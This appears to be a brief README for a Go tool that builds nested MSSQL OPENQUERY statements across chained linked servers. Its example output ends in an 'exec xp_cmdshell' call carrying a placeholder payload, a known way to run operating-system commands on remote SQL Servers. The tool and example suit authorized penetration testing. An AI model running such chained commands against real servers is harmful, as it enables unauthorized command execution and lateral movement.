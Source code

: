 # MSSQL-OpenQueryBuilder

Build MSSQL open query

# Summary

Build MSSQL Open query from 1 to X targets.


# Examples 

## Multiple targets 

```
$ go run main.go -H target1.xyz -p mypayloadwith\"quotes\"  -H target2.xyz -H target3.xyz 
select * from openquery("target1.xyz",'select * from openquery("target2.xyz",''select * from openquery("target3.xyz",''''select @@servername; exec xp_cmdshell ''''''''mypayloadwith"quotes"'''''''''''')'')')
```



